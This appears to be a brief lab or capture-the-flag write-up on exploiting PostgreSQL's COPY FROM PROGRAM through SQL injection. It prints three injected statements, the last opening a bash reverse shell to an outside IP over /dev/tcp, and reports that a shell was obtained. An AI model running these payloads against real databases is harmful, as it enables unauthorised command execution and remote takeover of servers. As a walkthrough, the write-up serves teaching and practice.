 ![1](14.png)

## Exploit

- I found this article 
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- Let's try exploit it.
- by inserting this:
	- `';DROP TABLE IF EXISTS cmd_exec;--`
	- `';CREATE TABLE cmd_exec(cmd_output text);--`
	- `';COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.16.86/9901 0>&1";'--`

## Reverse Shell

- Got the reverse shell
